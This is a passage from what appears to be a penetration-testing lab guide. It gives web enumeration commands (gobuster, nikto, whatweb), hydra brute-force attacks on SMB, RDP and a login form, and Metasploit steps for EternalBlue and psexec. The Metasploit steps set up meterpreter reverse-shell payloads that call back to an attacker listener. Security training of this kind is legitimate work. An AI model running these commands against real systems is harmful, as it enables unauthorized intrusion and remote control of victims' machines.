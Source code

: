 ### Web Service Enumeration

```bash
# Directory brute-forcing
gobuster dir -u http://192.168.100.20 -w /usr/share/wordlists/dirb/common.txt

# Nikto web scanner
nikto -h http://192.168.100.20

# WhatWeb for technology detection
whatweb http://192.168.100.20
```

## ⚔️ Phase 3: Gaining Access

### Password Attacks

```bash
# SMB brute force
hydra -L users.txt -P passwords.txt smb://192.168.100.20

# RDP brute force
hydra -t 1 -V -f -L users.txt -P passwords.txt rdp://192.168.100.20

# HTTP form brute force
hydra -l admin -P passwords.txt 192.168.100.20 http-post-form "/login.php:username=^USER^&password=^PASS^:Invalid"
```

### Metasploit Framework Usage

#### EternalBlue (MS17-010) Exploitation

```bash
# Start Metasploit
msfconsole

# EternalBlue exploit
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.100.20
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.100.10
set LPORT 4444
exploit
```

#### SMB Login Exploitation

```bash
# SMB login with known credentials
use exploit/windows/smb/psexec
set RHOSTS 192.168.100.20
set SMBUser administrator
set SMBPass Password123
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.100.10
exploit
```
